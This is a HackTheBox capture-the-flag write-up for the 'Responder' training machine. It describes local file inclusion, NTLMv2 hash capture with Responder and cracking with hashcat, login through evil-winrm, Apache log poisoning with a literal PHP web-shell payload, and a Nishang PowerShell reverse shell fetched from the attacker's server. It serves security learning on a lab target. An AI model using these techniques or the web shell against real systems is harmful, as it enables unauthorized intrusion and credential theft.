










HackTheBox - Responder Writeup
Table of Contents
I found two ways to gain into this machine. First, stealing the password hash by using the responder and then logon through evil-winrm. Second, gaining the remote code execution through log poisoning and getting the reverse shell.
Nmap
Let’s scan the Ip address first by using Nmap.
result
# Nmap 7.92 scan initiated Sat Apr 9 04:18:54 2022 as: nmap -sC -sV -p- -oN nmap/responder_all 10.129.101.69
Nmap scan report for 10.129.101.69
Host is up (0.42s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 9 04:35:03 2022 -- 1 IP address (1 host up) scanned in 968.69 seconds
That’s not a lot of open ports.
First Method
Http
The Nmap scan result shows this machine has a webserver on port 80. When I put the Ip address in the url bar it’s redirected me to unika.htb

To solve this issue, put the Ip address of this machine in the /etc/hosts file and give it a name. In this case, the name is unika.htb and save it. Now, just refresh the page, and BOOM!

Local File Inclusion/LFI
I’m started playing around with the website. Then, I found a button on the top navigation bar that you can change the language. When clicking any of the languages to change. The url became looks like this http://unika.htb/index.php?page=french.html
Every time I saw this kinda url with the parameter with it. I usually try to do local file inclusion first. In this case, I’m using the PHP wrapper because it’s kinda easy for me. Let’s hit the hosts file in the Windows that locate here C:/WINDOWS/System32/drivers/etc/hosts and BOOM!

With this information. We can get access to this machine with Log Poisoing. However, the question asks something about Responder utility.
Responder.py
Every starting-point machine has a walkthrough pdf file to download. So, I download it and read the Using Responder section. That’s no shame to read the walkthrough to learn. Well, I’m kinda lost reading those sections but I found this article kali:forums - How to use Responder.py to Steal Credentials and it kinda makes sense to my small brain :). Here’s the article that got highlighted from the pdf file HackTricks - places to steal ntlm creds
Enough with all of this, let’s try to steal the hash. First, let’s run the responder with sudo privilege and specify the tun0 as the interface with tag -I. Now, add the “share” in the url bar at the page parameter. Make sure to use your tun0 Ip address and the “share” can be anything.



The image above shows that the responder successfully grab the NTLMv2 hash.
Hashcat
Well, I got the hash already and put it in the file called admin.hash and the last thing to do is crack it. I love hashcat so much and that’s the one I’m gonna use it. Let’s run it with mode 5600 for the NTLMv2 hash and I’m gonna use rockyou.txt as my wordlist.


YES! Finally! I’ve got the password.
Evil-WinRM
Based on the Nmap scan result. The port 5985 is open, which is Windows Remote Management (winrm). Let’s try to connect to it with these credentials.

NICE!
Second Method
Log Poisoning
As you know, from the First Method section. This machine is vulnerable to local file inclusion. So, I’m gonna try to gain remote code execution through log poisoning. Here’s the article talking about it hackingarticles - apache log poisoning through lfi that I found. The result from the Nmap scan shows us this is an apache server running on Windows. Let’s verify that we can read the log file that locates in C:\xampp\apache\logs\access.log by default and to do this I’m gonna use the BurpSuite.

Looks like I can read the log file. Now, let’s poison the User-Agent header with a basic PHP web shell by putting this code (down below). Then, click send.
<?php system($_REQUEST['cmd']);?>

The log should now contain PHP code. The LFI vulnerability should execute this code and we should be able to gain remote code execution by putting the &cmd=whoami at the end of the url. The command successfully ran.

Nishang: Invoke-PowerShellTcp.ps1
Now, we have the RCE, and let’s try to gain the reverse shell. I’m gonna use the Nishang reverse shell which is Invoke-PowerShellTcp.ps1 but first, I’m gonna make a new directory named www and copy the powershell file into that directory. Then, I’m gonna open that file and select one of the example lines available and change the Ip address and port. After that, put it in the last line in the file.

Now, I’m running the python http server into the www directory. Then, download the reverse shell file using BurpSuite and don’t forget to url encode it. Make sure to run the nc listener with rlwrap on the port that you specify in the reverse shell file.



TADAA!! we’ve got the shell and can read the flag.